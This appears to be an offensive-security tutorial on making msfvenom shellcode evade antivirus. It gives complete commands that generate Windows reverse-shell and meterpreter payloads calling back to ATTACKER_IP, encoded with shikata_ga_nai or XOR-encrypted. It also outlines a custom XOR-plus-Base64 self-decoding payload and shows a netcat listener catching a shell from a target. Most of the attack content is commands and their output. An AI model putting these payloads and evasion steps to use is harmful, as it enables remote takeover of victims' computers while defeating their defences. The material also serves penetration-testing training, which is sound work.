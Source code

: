 # Encode and Encrypt Shellcode with MSFVenom

Public tools like Metasploit provide encoding and encryption features for payloads. However, AV vendors are aware of these techniques and often detect payloads generated with default options. This section demonstrates encoding and encrypting shellcode using MSFVenom, and introduces custom encoding to bypass AV detection.

---

## Listing Encoders in Metasploit

You can list all available encoders with:

```bash
msfvenom --list encoders | grep excellent
```

Example output:

```
cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

---

## Encoding with `shikata_ga_nai`

To encode a payload three times with the `shikata_ga_nai` encoder:

```bash
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

Sample output:

```
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes
```

> **Note:** Even with encoding, AVs like Windows Defender will likely detect the payload.

---

## Encryption with MSFVenom

List available encryption algorithms:

```bash
msfvenom --list encrypt
```

Example output:

```
Framework Encryption Formats [--encrypt <value>]
================================================
Name
----
aes256
base64
rc4
xor
```

To generate an XOR-encrypted payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

Sample output:

```
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

> **Note:** Even encrypted payloads are often detected by AVs.

---

## Creating a Custom Encoded Payload

To bypass AV detection, use a custom encoding scheme. For example, XOR the shellcode with a custom key and then encode it with Base64.

### 1. Generate Shellcode in CSharp Format

```bash
msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

### 2. Encode the Shellcode

Create a C# encoder that XORs the shellcode and encodes it in Base64. Replace the `buf` variable with your shellcode.

**Compile and run the encoder:**

```cmd
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

---

### 3. Create a Self-Decoding Payload

Modify your payload to decode the Base64 string and XOR it with the same key before execution.

**Compile the payload:**

```cmd
C:\> csc.exe EncStageless.cs
```

---

### 4. Test the Payload

Set up a Netcat listener:

```bash
nc -lvp 443
```

After executing the payload on the target, you should receive a shell:

```
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
...
C:\Windows\System32>
```

---

## Conclusion

Default encoding and encryption methods in MSFVenom are often detected by AVs. Custom encoding (e.g., XOR + Base64) can help bypass detection. Simple modifications and creativity are often enough to evade signature-based detection.
